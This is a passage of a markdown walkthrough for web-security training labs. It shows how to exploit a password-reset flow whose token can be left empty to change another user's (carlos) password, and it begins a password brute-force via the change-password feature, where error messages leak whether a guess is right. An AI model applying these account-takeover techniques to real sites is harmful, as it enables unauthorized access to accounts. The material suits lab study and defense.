     https://<lab_url>/email             GET

    https://<lab_url>/forgot-password   GET     (temp-forgot-password-token=Efclm8DmnNeX9QZkCsfQlgaWuVbOkN5Z)

    https://<lab_url>/forgot-password   POST    (temp-forgot-password-token=Efclm8DmnNeX9QZkCsfQlgaWuVbOkN5Z  
                                                &username=wiener&new-password-1=<payload>&new-password-2=<payload>)
    ```

    - Repeat the **/forgot-password POST** request  
    (notice that's still working even if the password just changed).

    - Repeat the **/forgot-password POST** request but deleting the value of the
    **temp-forgot-password-token** in both the URL and request body  
    (notice that's still working even if the token value is empty).

    ```plaintext
    POST /forgot-password?temp-forgot-password-token=
    ...
    temp-forgot-password-token=&username=wiener&new-password-1=<payload>&new-password-2=<payload>
    ```

    - Repeat the **/forgot-password POST** request (w/any of the previous variants)
    but using the username **carlos** and the password you want.

4. #### **Password brute-force via password change**

    - Login with valid credentials (**wiener:peter**) then change your password and take note
    of the URL flow and the parameters sent.

    <br>

    ```plaintext
    https://<lab_url>/login                         GET     (session=oL5vfPo8W77vqQA3uBxMTbPhxWefTIKy)

    https://<lab_url>/login                         POST    (session=oL5vfPo8W77vqQA3uBxMTbPhxWefTIKy,
                                                            username=wiener&password=peter)

    https://<lab_url>/my-account                    GET     (session=tyzKZkYzBEnaS8erwdf5uLY4XLVYsCVy)

    https://<lab_url>/my-account/change-password    POST    (session=tyzKZkYzBEnaS8erwdf5uLY4XLVYsCVy,
                                                            username=wiener&current-password=peter
                                                            &new-password-1=<payload>&new-password-2=<payload>)

    https://<lab_url>/my-account                    GET     (session=tyzKZkYzBEnaS8erwdf5uLY4XLVYsCVy)
    ```

    - Login again and experiment with the password change functionality  
    (notice the following:  
      - a) If the **Current password** is wrong and both **New password** match, the account is locked  
      [you are redirected to the login page and if you try to login again, the message  
      ***"You have made too many incorrect login attempts. Please try again in 1 minute(s)."***] will appear.
      - b) If the **Current password** is wrong and both **New password** doesn't match, the message  
        ***"Current password is incorrect"*** will appear.
      - c) If the **Current password** is ok but both **New password** doesn't match, the message  
        ***"New passwords do not match"*** will appear.).
